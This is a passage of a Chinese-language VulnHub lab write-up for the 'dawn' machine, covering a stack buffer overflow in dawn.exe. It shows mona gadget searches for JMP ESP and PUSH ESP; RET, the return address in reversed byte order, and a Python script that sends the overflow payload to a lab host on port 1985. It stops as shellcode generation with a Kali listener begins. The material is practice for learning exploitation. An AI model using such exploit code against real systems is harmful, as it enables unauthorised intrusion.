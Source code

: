#### 📌找位置

```bash
!mona modules
```

![9](https://static.iihack.com/vulnhub/424/9.PNG)

找出全false的进程文件dawn.exe

```bash
$ msf-nasm_shell                       
nasm > jmp esp
00000000  FFE4              jmp esp
```
同理
```python
!mona find -s "\xff\xe4" -m "dawn.exe" #jmp esp
!mona find -s "\x54\xc3" -m "dawn.exe" #PUSH ESP; RET
!mona find -s "\xff\xd4" -m "dawn.exe" #CALL ESP
```

![10](https://static.iihack.com/vulnhub/424/10.PNG)

![11](https://static.iihack.com/vulnhub/424/11.PNG)

使用`!mona find -s "\x54\xc3" -m "dawn.exe"`时找到34581777

倒序

```bash
34581777 → 77 17 58 34  → \x77\x17\x58\x34s
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "A"*272
eip = '\x77\x17\x58\x34'
nullByte = "\x00"
buffer = "C" * (800-len(buff) - len(eip))
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![12](https://static.iihack.com/vulnhub/424/12.PNG)

#### 📌生成shellcode

使用Kali监听444端口
